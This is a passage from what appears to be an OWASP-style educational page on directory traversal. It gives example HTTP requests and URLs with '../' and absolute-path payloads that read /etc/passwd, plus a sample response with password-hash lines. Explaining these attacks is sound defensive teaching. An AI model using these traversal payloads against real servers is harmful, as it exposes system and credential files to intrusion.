 An attack against this system could be to send the following HTTP
request:

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

Generating a server response such as:

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
daemon:*:1:1::/tmp:
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

The repeated `../` characters after `/home/users/phpguru/templates/` has
caused [include()](http://www.php.net/manual/en/function.include.php) to
traverse to the root directory, and then include the UNIX password file
`/etc/passwd`.

UNIX `etc/passwd` is a common file used to demonstrate **directory
traversal**, as it is often used by crackers to try cracking the
passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

```
http://testsite.com/get.php?f=list
http://testsite.com/get.cgi?f=2
http://testsite.com/get.asp?f=test
```

An attacker can execute this attack like this:

```
http://testsite.com/get.php?f=/var/www/html/get.php
http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
http://testsite.com/get.asp?f=/etc/passwd
```

When the web server returns information about errors in a web
application, it is much easier for the attacker to guess the correct
locations (e.g. path to the file with a source code, which then may be
displayed).

## Related [Attacks](https://owasp.org/www-community/attacks/)

- [Path Manipulation](https://wiki.owasp.org/index.php/Path_Traversal)
- [Relative Path Traversal](https://wiki.owasp.org/index.php/Path_Traversal)
- [Resource Injection](https://owasp.org/www-community/attacks/Resource_Injection)
